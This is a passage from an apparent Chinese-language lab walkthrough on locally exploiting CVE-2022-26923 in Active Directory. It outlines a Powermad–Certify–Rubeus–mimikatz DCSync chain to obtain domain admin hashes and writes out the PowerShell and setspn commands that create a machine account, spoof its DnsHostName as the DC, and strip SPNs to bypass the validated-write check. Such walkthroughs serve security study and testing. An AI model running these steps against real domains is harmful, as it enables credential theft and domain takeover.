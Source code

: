 **

5、本地利用 CVE-2022-26923

**
-----------------------------

在本地利用 CVE-2022-26923 时，我们需要比在远程通过 Certipy 利用要多做一些操作。

首先，使用 [Powermad.ps1](https://github.com/Kevin-Robertson/Powermad) 创建计算机帐户和设置欺骗的 DNSHostname 属性；接着，使用 [certify.exe](https://github.com/GhostPack/Certify) 为我们的计算机帐户申请新的证书；但由于 rubeus.exe 只接受 PFX 类型的证书，所以还需要使用 openssl 将该证书进行转换；之后，使用 rubeus.exe 申请一个 **拥有 DC 计算机帐户身份** 的 TGT 票据，同时提取该 **DC 计算机帐户** 的 NTLM 哈希；最后，使用 mimikatz.exe 执行 DCSync 攻击来获取域管理员的 NTLM 哈希。

#### **

5.1、新建机器帐户并篡改 DNSHostname 属性

**

首先，下载 Powermad.ps1 并将其传输到受害机，然后使用以下命令来创建新的计算机帐户：

    . .\Powermad.ps1
    
    $machine_account_password = ConvertTo-SecureString 'P@ssw0rd' -AsPlainText -Force
    
    New-MachineAccount -MachineAccount juggernaut -Password $machine_account_password
    

![](https://img2024.cnblogs.com/blog/1503193/202506/1503193-20250607183956510-491176382.png)

在添加了计算机帐户之后，可以使用以下命令查询它当前的 DNSHostname 属性：

    Get-MachineAccountAttribute -MachineAccount juggernaut -Attribute DnsHostName
    

![](https://img2024.cnblogs.com/blog/1503193/202506/1503193-20250607183955708-791860821.png)

为了篡改新建账户的 DNSHostname 属性，我们可以使用以下命令：

    Set-MachineAccountAttribute -MachineAccount juggernaut -Attribute DnsHostName -Value "Juggernaut-DC.juggernaut.local"
    

![](https://img2024.cnblogs.com/blog/1503193/202506/1503193-20250607183955926-1097526826.png)

结果失败了！！这是由于，即使我们创建了新的计算机账户，也不能随意编辑 DnsHostName，因为该属性的权限为 “已验证可写入 DNS 主机名”。这意味着任何修改尝试都会与 ServicePrincipalName (SPN) 属性进行核对，以防止这两个属性之间出现任何不匹配。

当然，这只是一个小障碍，而我们仍可以通过删除我们创建的计算机帐户的 FQDN 注册的 SPN 来绕过它。

使用 **setspn** 命令，我们可以查询创建帐户时自动生成的 SPN：

    setspn -T juggernaut.local -F -Q */*
    

![](https://img2024.cnblogs.com/blog/1503193/202506/1503193-20250607183955947-1854916535.png)

可以看到，新建的计算机帐户对应着四个 SPN。而我们需要从这四个 SPN 中删除以域名（juggernaut.local）结尾的 SPN。幸运的是，我们仍可以使用 setspn 命令来执行此操作：

    setspn -d HOST/juggernaut.juggernaut.local juggernaut
    